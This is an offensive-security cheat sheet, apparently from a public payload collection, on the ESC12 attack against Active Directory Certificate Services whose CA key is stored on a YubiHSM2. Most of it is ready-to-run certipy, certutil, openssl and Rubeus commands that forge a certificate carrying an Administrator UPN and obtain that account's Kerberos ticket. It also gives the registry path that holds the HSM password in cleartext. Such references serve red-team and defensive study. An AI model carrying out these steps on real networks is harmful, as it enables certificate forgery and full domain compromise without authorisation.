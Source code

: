# Active Directory - Certificate ESC12

## ESC12 - ADCS CA on YubiHSM

> The ESC12 vulnerability occurs when a Certificate Authority (CA) stores its private key on a YubiHSM2 device, which requires an authentication key (password) to access. This password is stored in the registry in cleartext, allowing an attacker with shell access to the CA server to recover the private key.

**Requirements**:

* CA certificate
* Shell access on the root CA server

**Exploitation**:

* Generate a certicate for the user

  ```ps1
  certipy req -target dc-esc.esc.local -dc-ip 10.10.10.10 -u "user_esc12@esc.local" -p 'P@ssw0rd' -template User -ca <CA-Common-Name>
  certipy cert -pfx user_esc12.pfx -nokey -out user_esc12.crt
  certipy cert -pfx user_esc12.pfx -nocert -out user_esc12.key
  ```

* Importing the CA certificate into the user store

  ```ps1
  certutil -addstore -user my .\Root-CA-5.cer
  ```

* Associated with the private key in the YubiHSM2 device

  ```ps1
  certutil -csp "YubiHSM Key Storage Provider" -repairstore -user my <CA-Common-Name>
  ```

* Sign `user_esc12.crt` and specify a `Subject Alternative Name` using the `extension.inf` file.

  ```ps1
  certutil -sign ./user_esc12.crt new.crt @extension.inf
  ```

* Content of extension.inf

  ```cs
  [Extensions]
  2.5.29.17 = "{text}"
  _continue_ = "UPN=Administrator@esc.local&"
  ```

* Use the certificate to get the TGT of the Administrator

  ```ps1
  openssl.exe pkcs12 -export -in new.crt -inkey user_esc12.key -out user_esc12_Administrator.pfx
  Rubeus.exe asktgt /user:Administrator /certificate:user_esc12_Administrator.pfx /domain:esc.local /dc:192.168.1.2 /show /nowrap
  ```

Unlocking the YubiHSM with the plaintext password in the registry key: `HKEY_LOCAL_MACHINE\SOFTWARE\Yubico\YubiHSM\AuthKeysetPassword`.

## References

* [ESC12 – Shell access to ADCS CA with YubiHSM - hajo - October 2023](https://pkiblog.knobloch.info/esc12-shell-access-to-adcs-ca-with-yubihsm)
* [Exploitation de l’AD CS : ESC12, ESC13 et ESC14 - Guillon Bony Rémi - February, 2025](https://connect.ed-diamond.com/misc/mischs-031/exploitation-de-l-ad-cs-esc12-esc13-et-esc14)
